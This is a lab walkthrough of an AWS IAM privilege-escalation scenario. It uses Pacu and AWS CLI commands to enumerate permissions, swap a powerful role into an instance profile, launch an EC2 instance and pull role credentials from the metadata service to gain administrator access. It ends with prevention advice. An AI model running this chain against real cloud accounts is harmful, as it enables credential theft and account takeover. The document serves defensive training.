

---
Once the scenario is creation process completes we are presented with a set of access keys for a user account 'kerrigan'


---

## whoami
First lets make sure the credentials that we have obtained are valid:

```bash
aws sts get-caller-identity --profile xxx |jq
```


Perfect, looks like the credentials work. Now, what can they do?

---

### What can I do?

Lets use pacu to brute force some permissions. We can do this by running:

```bash
run iam__bruteforce_permissions
```


Once the command completes we see the output below:


Overall the credentials are fairly limited. But it does look like we have the ability to learn about ec2 instances with the describe command. Lets bounce back to the aws cli and run:

```bash
aws ec2 describe-instances |jq
```

We get an output thatshows us details about the instances within the us-east region of this account. Lets clean this up a little bit just for fun.

```bash
aws --profile kerrigan ec2 describe-instances |jq -r '.Reservations[0].Instances[].InstanceId,.Reservations[0].Instances[].SecurityGroups[].GroupName,.Reservations[0].Instances[].NetworkInterfaces[].Association[]'
```

**Note in the command above I set the Reservations to the value in the first index. To see all instances leave the brackets empty '[]'*

This cleans up the verbose output and prints the instance id, security groups, and some networking details about the instance


Lets see what else our permissions can do. We'll start with the instance profiles command. According to Pacu we have rights to invoke this command.

```bash
aws iam list-instance-profiles |jq
```

Looking at the output below we see a profile with the 'cg-ec2-meek-role' associated with it.


Lets use pacu to see what instances,security groups, vpcs, and subnets exist within the environment:

```bash
run ec2__enum --region=us-east-1
```

Looking at the output we can see that there are currently 4 instances in the region as well as additional information that may become useful.


Within Pacu running the `data` command will dump all of the data from the current session. This will include all of the details we just enumerated about the EC2's within the account.

Lets head back to the aws cli and run the ec2 describe call again. This time instead of jq we will just print the output to a table.

```bash
aws --profile kerrigan ec2 describe-instances --output table
```

Looking at the output we can see that there is an ec2 and one of the `tags` is that it is a `super critical server`.


---

### More Enumeration

Considering everything that we've seen up to this point:

- A critical instance exists
- We can perform several ec2 tasks
- We do have some limited iam rights

There seems to be some potential for us to create an instance. Lets use Pacu to see if we have any additional iam permissions that could be of use.

```bash
run iam__enum_users_roles_policies_groups
```

In the output below it looks like we do not have permissions to make the: `list_users, list_groups, or list_policies calls`. We do however have permissions to list roles within the account.


Lets dig into those a big more. This can be done by either running the `data` command from within Pacu or by running the following command via the aws cli:

```bash
aws --profile kerrigan iam list-roles | jq '.Roles[].RoleName'
```


Considering the role we saw associated with the ec2 instance earlier was called `meek` it's interesting to see another role with the name of `mightly`. Lets dig into that a bit more. Instead of making another `iam list-role`s call to AWS, lets just use the existing `data` within Pacu by running the data command.


In the picture above we can see that the `mighty` role is a role associated with the ec2 service. This is a role that can be associated with an ec2 profile, and the profile can be associated with an ec2 instance.

Considering we have permissions into describing instalnce profile associates, perhaps we also have the ability to associate different roles to a profile. Lets see if we can attach the mighty role to the ec2 profile

Only one role can be associated with an ec2 instance profile at a time. To begin we will see if we can remove the existing meek role from the profile. We need to pieces of information in order to remove a role from an instance profile. The role name we want to remove, and the profile we want to remove it from. Luckily we know both of those bits of information from our enumeration.

- Role: cg-ec2-meek-role-cgidawtm15fqxm
- Profile: cg-ec2-meek-instance-profile-cgidawtm15fqxm

```
aws --profile kerrigan iam remove-role-from-instance-profile --instance-profile-name=cg-ec2-meek-instance-profile-cgidawtm15fqxm --role-name=cg-ec2-meek-role-cgidawtm15fqxm
```

If the command is successful, there will be no output, if it fails, it squawks. We can confirm it as successful by running the list-instance-profiles command again.


In the output above we see the `meek` instance profile with no roles associated with it. Great! Now lets try associating the `mighty` role with the `meek` instance profile. In order to do this we need two pieces of information, the role name, and the instance profile name.

- Role: cg-ec2-mighty-role-cgidawtm15fqxm
- Profile: cg-ec2-meek-instance-profile-cgidawtm15fqxm

```
aws --profile kerrigan iam add-role-to-instance-profile --instance-profile-name=cg-ec2-meek-instance-profile-cgidawtm15fqxm --role-name=cg-ec2-mighty-role-cgidawtm15fqxm
```

Similar to the output when we removed the role from the profile, there will be no output if successful. However running the `list-instance-profiles` command again we can see that the `mighty` role has been associated with the `meek` instance profile.


Perfect! We now have the mighty role associated with the meek profile.

---

### Make an ec2

Lets create our own ec2 and see if we can associate the meek instance profile with the now might role attached to an ec2 instance that we can gain access to. In order to create an ec2 we need several pieces of information:

- ssh key
- security group ids
- subnet id
- image-id
- instance-type

First we need a key pair the command below will create the ssh key named `totes-legit`, parses it with jq to just show the key details, and then sends the output into a file called totes-legit:

```bash
aws --profile kerrigan ec2 create-key-pair --key-name totes-legit |jq -r '.KeyMaterial' > ~/.ssh/totes-legit
```

Next we need to find a security group that fits our needs, or see if we can build our own. After all what use is an instane if we cannot connect to it. We can use data from Pacu or we can make another call to aws

```bash
aws --profile kerrigan ec2 describe-security-groups
```

Looking at the output we can see that there is already a group that fits our needs, it allows SSH from an IP address that we have access to.


We know that the super critical server has a public IP address, we also have the subnet for that instance. We can use that subnet-id when we create our new instance.


 
At this point We have all of the pieces that we need to create an instance that we will have access to (hopefully).

- ssh key: totes-legit
- security group ids: sg-0594794cf09e47456
- subnet id: subnet-0157cfe78e8beca7a
- image-id: ami-0a313d6098716f372
- instance-type: t2.micro
- Time to create an instance:

```bash
aws --profile kerrigan ec2 run-instances --image-id=ami-0a313d6098716f372 --count=1 --instance-type=t2.micro --security-group-ids=subnet-01a29bf90aca8c8d9 --subnet-id=subnet-0157cfe78e8beca7a --key-name=totes-legit --tags Key=Name,Value=totes-legit
```

When this is successful all of the data bout our instance is returned. This includes our instance id, ip information, and current state. and returns our instance id.

```bash
"InstanceId": "i-06f3f5f9f8cdc9c6e"
```


Unfortunatly, we don't seem to have a public IP address for our instance. Did something go wrong? Nope, the current stat of the instance was 'pending'. We need to check back in on the instance an wait for the state to change to 'running'. Once its running, we should also have public IP address information. We can do this with the `describe-instances` command.

```bash
aws --profile kerrigan ec2 describe-instances --instance-id=i-06f3f5f9f8cdc9c6e
```


The output from the command in the picture above shows that the instance is 'running' and that we have a public IP.

```bash
"PublicIpAddress": "18.232.65.212"
```

Now we can ssh into the box using our totes-legit key:

```bash
ssh -i ~/.ssh/totes-legit ubuntu@18.232.65.212
```

Now we can query the meta data service and extract the instance keys, or we could run commands directly through this ec2. Lets grab the keys.

```bash
curl http://169.254.169.254/latest/meta-data/iam/
```

Weird, looking at the output below we get a 404 error and no access keys. What could cause that?


---

### More Power

Looking back at what we've done.

- We found an instance profile
- We disassociated a role with the instance profile
- We associated a new role with the instance profile
- We created an ec2 instance that we have access to.

Something we have not done yet, associate an instance profile with our instance. This profile is how our instance gains privileges. Remeber, an ec2 can have an instance profile associated with it. That profile can have 1 role associated with it, and that role can have policies attached to it.

Lets assign a profile to our instance. We'll need our `instance Id`, and the `meek-instance` profile name we discovered earlier.

```bash
aws --profile kerrigan ec2 associate-iam-instance-profile --instance-id=i-06f3f5f9f8cdc9c6e --iam-instance-profile Name=cg-ec2-meek-instance-profile-cgidawtm15fqxm
```

Once the command is executed we'll see an output similar to the one below with a state of `associating`


After a minute or two we can check back in on our instsance and attempt to curl for credentials again:

```bash
curl http://169.254.169.254/latest/meta-data/iam/
```

The output has changed, from a 404 error to the one below.


Digging deeper into the meta data we can find an AccessKey, SecretAcessKey, and a Token needed to access the aws api

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-mighty-role-cgidawtm15fqxm
```


We have a few options at this point:

- Take the access key information and run aws cli commands from our workstation
- Install/use the aws cli on the instance we control to run commands
- Use the pacu proxy

Each of these has there own benefits and draw backs. If we steal the keys and use them locally, we run the risk of triggering Guard Duty. We could spin up an ec2 in our own account to prevent Guard Duty from alerting, but thats not necessary for this walkthrough. If we install the aws cli and issue commands we run the risk of losing access to the box. The same issue presents itself if we use the Pacu proxy.

We'll go ahead and run the risk of losing access, and install the aws cli on our instance.

Once its install we can validate that we have working credentials:

```bash
sts get-caller-identity
```


Perfect we have no pivoted from the `kerrigan` user to whatever permissions we have through the new mighty role. We should use our new abilities to see if we can determine the full extent of the `mighty` role.

```bash
aws iam list-attached-role-policies --role-name=cg-ec2-mighty-role-cgidawtm15fqxm
```

and thankfully, it looks like we have some measure of IAM privileges because the output from that command shows us the policy associated with the role:


Perhaps we have the ability to also see the configuration of that policy. Fist we'll pull in some general information about the policy:

```
aws iam get-policy --policy-arn=arn:aws:iam:::policy/cg-ec2-mighty-policy
```


Looking at the output above we are currently using policy version v1.

We can now get the configuration of the policy with:

```bash
aws iam get-policy-version --policy-arn=arn:aws:iam:::policy/cg-ec2-mighty-policy --version-id=v1
```


The output shows that we can take any action Action: * and we can access any resource Resource: *. Through this ec2 instance with the mighty role we are effectivly and administrator within this account. We can do anything that we would like.

---

### Prevention
So, how do we prevent this. Where did the owner of this account go wrong? There are a few places where this could have be stopped. Lets dive into them.

1. The first and probably the biggest is does the Kerrigan user need a static key? If they could be switched to temorary ephemeral keys it would greatly reduce the liklihood that if an attacker found the keys that they would still be valid. In this scenario specifically if we did not have the Kerrigan access key then this attack would have failed right out of gate.
2. Does Kerrigan need this level of access? Looking at the policy:
```json
{
 "Version": "2012-10-17",
 "Statement": [
  {
   "Sid": "VisualEditor0",
   "Effect": "Allow",
   "Action": [
    "iam:ListRoles",
    "iam:PassRole",
    "iam:ListInstanceProfiles",
    "iam:AddRoleToInstanceProfile",
    "iam:RemoveRoleFromInstanceProfile",
    "ec2:AssociateIamInstanceProfile",
    "ec2:DescribeIamInstanceProfileAssociations",
    "ec2:RunInstances"
   ],
   "Resource": "*"
  },
  {
   "Sid": "VisualEditor1",
   "Effect": "Allow",
   "Action": "ec2:CreateKeyPair",
   "Resource": "*"
  },
  {
   "Action": [
    "ec2:DescribeInstances","ec2:DescribeVpcs", "ec2:DescribeSubnets",
    "ec2:DescribeSecurityGroups"
   ],
  "Effect": "Allow",
  "Resource": "*"
  }
  ]
}
```


 This policy grants a lot of access, and a lot of it probably isnt necessary. The iam permissions could probably go away. But, perhaps they're needed for an automation. What if the kerrigan keys are designed to spin up Ec2 instances, each has there own unique ssh key, and each need to have the same Instance profile associated with it so that it can access S3. If thats the case some of these permissions make sense. But we could still remove `ListRoles, PassRole, ListInstanceProfiles, RemoveRoleFromInstanceProfile, DescribeiamInstanceProfileAssociations`. These permissions were critical for us to be able to pivot from Kerrigan to an instance with mighty permissions.

3. The mighty role should probably just not exist at all. This would be an interesting discussion with the stakeholders to understand the purpose of this role. Perhaps there is a valid reason for it, but more than likely this could have permissions scoped in and not given full administrative rights to the account.
4. Proper detections could also help. While they might not prevent the entire attack, they may help to slow everything down. If the Cloudtrail logs were baselined, and examined our activities would probably stick out. Our enumeration was very loud, we made hundereds of calls over a short period of time. Additionally we probably made calls that the Kerrigan never makes. This would allow a SOC to have a heads up of the malicious activity and begin investigating.